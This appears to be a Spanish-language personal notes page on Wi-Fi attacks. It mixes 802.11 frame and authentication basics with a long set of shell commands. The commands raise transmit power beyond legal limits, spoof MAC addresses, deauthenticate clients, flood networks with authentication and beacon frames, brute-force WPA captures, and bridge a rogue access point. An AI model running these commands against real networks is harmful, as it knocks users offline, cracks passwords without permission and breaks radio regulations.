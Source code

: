 ```yaml
---
title: 'Wi-fi'
description: ''
pubDate: 'May 12 2023'
heroImage: 'https://res.cloudinary.com/djc1umong/image/upload/v1685504739/Screenshot_from_2023-05-30_23-45-31_akzecv.png'
slug: 'wi_fi'
---
```


### Basic

La maxima transmision de poder esta basado en las leyes de cada pais llamado regulatory domain (regdomain) que corresponde al ISO del codigo del pais.

Por defecto el adaptador esta configurado a cero, pero se puede cambiar por la linea de comandos

#### 802.11 MPDU (MAC Protocol DATA Unit) formato

Cada campo esta anotado por la longitud de su byte

<div id="table">

| bytes 2          | 2           | 6       | 6     | 6       | 2                | 6     | 0-2312     | 4         |     |       |
|------------------|-------------|---------|-------|---------|------------------|-------|------------|-----------|-----|-------|
| frame control    | Duration ID | Addr1   | Addr2 | Addr3   | Sequence Control | Addr4 | Frame Body | fcs       |     |       |
| protocol version | type        | subtype | to DS | From DS | More flag        | Retry | Pwr Mgmt   | More Data | wep | order |
| bits 2           | 2           | 4       | 1     | 1       | 1                | 1     | 1          | 1         | 1   | 1     |

</div>

```bash

# Caffe-Latte Attack
lsmod
# basics #
iwconfig
#more information
iw list

# Pone el wifi en el canal 11
iwconfig wlan0 channel 11
iw dev wlan0 set channel 11

# dbm #
# incrementar el maximo poder de transmision en el adaptador wifi
iw reg set BO

# 30 dbm corresponde a 1000mW
iw dev wlan0 set txpower fixed 30dbm

# confirmar que funciona
iwconfig wlan0

# test mode (calidad de nuestro setup para el AP "access point") #
aireplay-ng -9 wlan0

```
<img src='https://res.cloudinary.com/djc1umong/image/upload/v1685504598/Screenshot_from_2023-05-30_23-42-53_qued87.png' />

```bash
## Set MONITOR MODE
sudo ip link set wlan0 down
sudo iw wlan0 set monitor control
sudo ip link set wlan0 up
## cambiar nuestro mac para camuflarse
macchanger -h
sudo airmon-ng check
sudo airmon-ng check kill

ifconfig wlan0 down

iwconfig wlan0

ifconfig wlan0 up

# creamos la interfaz mon0 a partir de wlan0
iw dev wlan0 interface add mon0 type monitor

#########################################
sudo ip link set wlp1s0 down
#sudo iw wlp1s0 set monitor none
#;sudo iw wlp1s0 set type managed
;sudo iw wlp1s0 set type monitor
sudo ip link set wlp1s0 up
###########################

ifconfig mon0 up

# monitoreamos toda la red
airodump-ng wlan0

# Monitoreamos la red mac_address por el canal 36 usando la interface wlan0
airodump-ng --bssid mac_address -c 36 wlan0 -w captura.txt

# Enviamos paquetes de deactentication
aireplay-ng -0 15 -a mac_address -c device_address_station wlan0

# ataque deauth
aireplay-ng -0 1 -a mac_address_BSSID -c device_address_station-client_mac wlan0

# ataque de authenticacion para saturar la red
aireplay-ng -1 0 -a mac_address -h device_address_station_random wlan0

# Enviar usuaruois de one
mdk3 wlan0 a -a mac_address

## Ataque 3 de beacons meter usuarios a la red wifi
# usando wlan0 ataque b con el archivo redes.txt -a wpa2 cada segundo x el canal 11
# cat redes.txt
# network1
# network2
# network3

mdk3 wlan0 b -f redes.txt -a -s 1000 -c 11

# Brute force
aircrack-ng -w wordlist cap.file

crunch 8 8 | aircrack-ng -e RosNetwork file.cap -w -

```

**BSSID:** Identifica un AP
**Dirección de destino (DA):** Destino final para recivir el frame
**Dirección fuente (SA):** Fuente original que creo el frame
**Dirección del destinatario (RA):** Destino STA
**Dirección del transmisor (TA):** Transmisor STA

Los *beacons* son fotogramas que transmite periodicamente el AP. Su proposito es anunciar la red WI-FI, contiene información sobre los parametros de la red y capacidades del AP como tasas de rendimiento admitidas

*Probe requests* son enviados por el cliente para determinar la disponibilidad de la red, contiene el nombre SSID y es enviado por todos los canales, un nullbyte puede ser enviado si no quiere buscar una red especifica

*Probe responses* son enviados por el AP una vez que recibe el probe request, son parecidos al beacon pero con información adicional según lo especificado por el cliente que se comunica dentro del prove request correspondiente

Despues de la authenticación una estacion necesita ser asociada por el AP, este es el proposito del *Association Request* frames, contiene información sobre las capacidades STA, velocidades de data transmitida y el SSID de la red a la que desea asociarse

### 3 estados posibles de conexión

1. No autenticado
2. Autenticado pero no asociado
3. Autenticado y asociado

El estandar 802.11 original especifica que hay 2 modos de autenticación diferentes.

- Autenticación abierta
- Autenticación de llave compartida

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1691031056/Screenshot_from_2023-08-02_22-50-09_yi6gyw.webp" alt="airodump-ng">

esta seccion muestra información sobre los clientes de la red

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1691031181/Screenshot_from_2023-08-02_22-52-47_mzhdsw.webp" alt="">

[DB para brute-force](https://www.renderlab.net/projects/WPA-tables/)

### Airbase-ng

- Implementaciones de 

```bash
# Deprecated
# brctl addbr br0
# brctl addif br0 eth0
# brctl addif br0 at0

ip link add br0 type bridge
ip link set dev eth0 master br0
ip link set dev at0 master br0

ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig br0 192.168.0.10 up

iptables -t nat -A POSTROUTING -o br0 -j MASQUERADE

echo 1 > /proc/sys/net/ipv4/ip_forward

# Disponible para conectarse a internet en este punto

ip link set veth0 up
ip link set veth0-br up
```
